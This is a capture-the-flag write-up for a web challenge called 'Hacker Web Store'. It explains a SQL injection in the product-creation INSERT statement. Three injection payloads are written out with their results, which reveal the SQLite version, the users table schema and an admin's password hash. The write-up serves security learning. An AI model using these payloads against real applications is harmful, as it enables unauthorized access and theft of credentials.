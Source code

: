 # Hacker Web Store
Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules.

# Flag

# Solution
Vulnerable to SQL Injection when executing INSERT statements to create new products. 

Assuming SQL statement is similar to this:

```sql
INSERT INTO products (name,price,desc)
VALUES ('test',2,'test');
```

Injecting: `name=test',10,(select+sqlite_version()))--+-&price=4&desc=hi`
```
3.31.1
```

Injecting: `name=test',10,(select+sql+from+sqlite_master))--+-&price=4&desc=hi`
```
CREATE TABLE users ( id INTEGER NOT NULL, name VARCHAR(100), password VARCHAR(100) NOT NULL, PRIMARY KEY (id) )
```

Injecting: `name=test',10,(select+id||CHAR(32)||name||CHAR(32)||password+from+users+where+id=3))--+-&price=4&desc=hi`
```
3 website_admin_account pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57
```


